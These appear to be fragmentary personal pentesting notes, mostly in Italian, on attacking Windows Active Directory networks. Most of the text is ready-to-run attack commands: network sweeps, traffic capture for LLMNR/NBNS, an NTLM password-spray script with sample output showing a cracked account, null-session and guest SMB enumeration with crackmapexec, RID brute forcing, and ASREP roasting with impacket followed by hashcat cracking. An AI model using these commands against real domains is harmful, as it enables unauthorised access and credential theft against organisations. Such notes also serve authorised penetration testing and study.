


https://github.com/BrunotheCesar/Active-Directory-Enumeration-Attacks
Trovati gli hash, crackiamo:
---------------------------------------------------------------------------------------------------------------------------------------
Altri tool da utilizzare:
# For a full domain scan.
Per evadere il firewall ci sono vari modi (che possono funzionare come no), tra cui --source-port 53
# Enumerate a Range of IPs
# Enumerate Users (These can also be tried with user credentials)
Se troviamo un open share possiamo connetterci:
smbclient //<Share IP Address>/<Sharename> -U <Domain>/Username
enum4linux <Domain Controller IP>
fping -g 192.168.56.1/24 2>/dev/null | grep -v "is unreachable"
nbtscan -r IP_RANGE
# Check the network in Analyzer mode
# Capture network traffic and store in .pcap file
tcpdump -i <ATTACKER INTERFACE> -w networkcapture.pcap
Open the captured .pcap file with wireshark and review for sensitive network protocols.
# Wireshark Search Terms
llmnr
nbns
mdns
https://github.com/Mr-Whiskerss/Windows_AD_Script_Dump/blob/main/ntlm_passwordspray.py
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
We provide the following values for each of the parameters:
<userfile> - Textfile containing our usernames - "usernames.txt"
<fqdn> - Fully qualified domain name associated with the organisation that we are attacking - "my.domain.com"
<password> - The password we want to use for our spraying attack - "Changeme2023"
<attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.my.domain.com"
Example:
[thm@thm]$ python ntlm_passwordspray.py -u usernames.txt -f my.domain.com -p Changeme2023 -a http://ntlmauth.my.domain.com/
[*] Starting passwords spray attack using the following password: Changeme2023
[-] Failed login with Username: john.doe
[-] Failed login with Username: jane.doe
[...]
[+] Valid credential pair found! Username: kiosec Password: Changeme2023
[...]
The following command attempt to connect to the NetBIOS server anonymously, in order to enumerate using MS-RPC available commands/functions:
rpcclient -U ‘’ -N TARGET-IP
Per altro su RPCClient: https://www.hackingarticles.in/active-directory-enumeration-rpcclient/
Innanzitutto eseguiamo il seguente comando per vedere se c'è una null session.
crackmapexec smb IP -u ‘’ -p ‘’
Se la risposta è “ACCESS DENIED” possiamo provare un guest user:
crackmapexec smb IP -u ‘guest’ -p ‘’
Es:

Se è disponibile, possiamo iniziare con l'enumeration e fare diverse operazioni:
crackmapexec smb 10.0.2.8 -u ‘guest’ -p ‘’ --shares → Per gli shares
Es:

Trovando un READ access possiamo come exploit un IRD brute forcing attack:
crackmapexec smb IP -u ‘guest’ -p ‘’ --rid-brute
Possiamo salvare l'output in un file. Per vedere solo gli utenti disponibili:
cat FILE.txt | grep -i user
A questo punto è possibile effettuare un ASREP Roasting attack:
impacket-GetNPUsers DOMAIN/ -userfile users.txt
Con questo comando potremmo individuare e catturare degli hash, da crackare poi con hashcat.
--------------------------------------------------------------------------------------------------------
Interessanti:
https://github.com/Leo4j/Invoke-ADEnum
https://github.com/Kiosec/AD-Exploitation
---------------------------------------------------------------------------------------------------------